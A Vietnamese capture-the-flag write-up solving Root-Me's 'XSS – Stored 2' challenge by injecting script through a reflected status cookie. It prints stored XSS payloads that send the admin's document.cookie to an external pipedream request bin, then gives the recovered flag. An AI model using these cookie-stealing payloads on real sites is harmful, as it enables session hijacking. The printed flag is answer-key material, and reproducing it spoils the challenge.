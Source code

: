 # WRITE UP

**Challenge:** [XSS – Stored 2](https://www.root-me.org/en/Challenges/Web-Client/XSS-Stored-2)

Thử fuzz các payload ở tab Admin và Post nhưng không có gì xảy ra. Kiểm tra và test thử thì thấy điều đặc biệt là **Status: invite** ở mỗi post.

<img src="./media/image1.png" style="width:6.5in;height:3.01458in" alt="Graphical user interface, text, website Description automatically generated" />

Check cookie của website thì thấy nó được handle dựa trên cookie này:

<img src="./media/image2.png" style="width:6.5in;height:3.21806in" alt="Graphical user interface Description automatically generated with medium confidence" />

Bỏ vào repeater và check thử thì thấy nó work:

<img src="./media/image3.png" style="width:6.5in;height:3.32153in" alt="Graphical user interface, text, application, email Description automatically generated" />

Ở đây, class “nh4ttruong” sẽ là điểm đích ta tấn công. Thử nhét payload XSS vào thử:

**Payload:** hehe"&gt;&lt;script&gt;alert(1)&lt;/script**&gt;**

<img src="./media/image4.png" style="width:6.5in;height:1.6125in" alt="Graphical user interface, text, application Description automatically generated" />

<img src="./media/image5.png" style="width:6.5in;height:1.97153in" alt="Graphical user interface, application, Teams Description automatically generated" />

Từ đó, ta đã có chỗ để tiêm XSS vào rồi. Tương tự các bài stored, ta tạo request bin và bơm vào:

**Payload:** *"&gt;&lt;script&gt;document.write("&lt;img src=https://eol9dtzbk9673pb.m.pipedream.net?cookie=%22.concat(document.cookie).concat(%22/&gt;%22))&lt;/script&gt;*

Cookie trả về có vẻ vẫn chưa nhận được. Nhưng referer trả về ?admin=1&idx=0. Nói lên rằng nó đã đi đúng hướng và admin đã đọc được:

<img src="./media/image6.png" style="width:6.5in;height:2.94583in" alt="Graphical user interface, text, application Description automatically generated" />

Mở intercept kiểm tra source với payload tương tự thì phát hiện cookie=status=invite;” kết thúc bằng “ ”, do đó, rất có thể nó không link được đến cookie của admin

<img src="./media/image7.png" style="width:6.5in;height:2.06736in" alt="A screenshot of a computer Description automatically generated with medium confidence" />

Để giải quyết điều này, ta thử sử dụng hàm REPLACE để xóa bỏ “ ” và chèn vào ký tự “&” để link các cookie với nhau:

**Payload:** *"&gt;&lt;script&gt;document.write("&lt;img src=https://eol9dtzbk9673pb.m.pipedream.net?cookie=%22.concat(document.cookie.replace(%27 %27,%27&%27 ).concat(%22/&gt;%22))&lt;/script&gt;*

<img src="./media/image8.png" style="width:6.5in;height:2.50278in" alt="Graphical user interface, text, application Description automatically generated" />

Có **ADMIN\_COOKIE**, ta thay đổi vào cookie và get pass:

<img src="./media/image9.png" style="width:6.5in;height:3.91875in" alt="Graphical user interface, text, application, email Description automatically generated" />

<img src="./media/image10.png" style="width:6.5in;height:3.24167in" alt="A screenshot of a computer Description automatically generated with medium confidence" />

**Flag:** E5HKEGyCXQVsYaehaqeJs0AfV
